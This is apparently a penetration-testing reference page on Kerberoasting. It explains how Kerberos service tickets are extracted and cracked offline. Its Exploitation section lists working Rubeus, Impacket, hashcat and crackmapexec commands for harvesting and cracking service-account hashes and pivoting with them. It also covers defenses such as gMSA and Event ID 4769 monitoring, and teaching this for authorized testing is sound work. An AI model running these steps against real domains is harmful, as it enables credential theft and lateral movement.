

# Kerberoasting

Extract and crack service ticket hashes offline.

## Overview Diagram

## How It Works

Kerberoasting exploits how Kerberos issues **Ticket Granting Service (TGS) tickets** for accounts with **Service Principal Names (SPNs)**. When a domain user requests access to a service (e.g., MSSQL, HTTP, CIFS), the DC returns a TGS ticket encrypted with the **service account's password hash**.

Any authenticated domain user can request TGS tickets for SPNs they can see in AD. Because the ticket is encrypted with the service account's credentials, an attacker can **extract the ciphertext offline** and crack it with hashcat without triggering account lockout—the attack never guesses passwords against the DC.

High-value targets: service accounts with weak passwords, accounts with `GenericAll` on other objects, and SQL/IIS service accounts running as domain users.

## Exploitation

1. **Find SPN accounts** — `GetUserSPNs.py domain/user:pass -dc-ip <DC>` or `Rubeus.exe kerberoast /stats`.
2. **Request TGS tickets** — `Rubeus.exe kerberoast /outfile:hashes.txt` or Impacket `GetUserSPNs -request`.
3. **Extract hashes** — Output format `$krb5tgs$23$*` for hashcat mode 13100.
4. **Crack offline** — `hashcat -m 13100 hashes.txt rockyou.txt -r rules/best64.rule`.
5. **Target AES tickets if available** — Mode 19700 for `$krb5tgs$18$*` (slower but captures stronger accounts).
6. **Validate cracked creds** — `crackmapexec smb <target> -u svc_account -p password`.
7. **Pivot** — Use recovered service account for lateral movement, ACL abuse, or further Kerberoasting if the account has new SPNs.
8. **Report** — Document SPN list, crack time, and downstream access gained.

## Defense & Mitigation

- **Use Group Managed Service Accounts (gMSA)** — Automatic 120-character passwords rotated by AD; not crackable via Kerberoasting.
- **Strong service account passwords** — 25+ random characters if gMSA is not feasible.
- **Least privilege on SPN accounts** — Service accounts should not be domain admins or have excessive ACLs.
- **Monitor Event ID 4769** — Alert on unusual TGS requests (many SPNs from one user, RC4 encryption type 0x17).
- **Prefer AES Kerberos encryption** — RC4 (etype 23) tickets are faster to crack.
- **Audit SPN registrations** — Remove stale SPNs from decommissioned services.
- **Deploy honeypot SPN accounts** — Canary SPNs that alert on any TGS request.

## Methodology

- [ ] Find SPN accounts with sufficient rights
- [ ] Request TGS tickets for offline cracking
- [ ] Use strong wordlists and rules
- [ ] Validate cracked creds for lateral movement

## Tools

| Tool | Usage |
|------|-------|
| `rubeus` | [Kerberos abuse toolkit](../../TOOLS_GUIDE.md#rubeus) |
| `impacket GetUserSPNs` | [Kerberoasting with GetUserSPNs](../../TOOLS_GUIDE.md#impacket) |
| `hashcat` | [Password cracking](https://hashcat.net/hashcat/) |

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
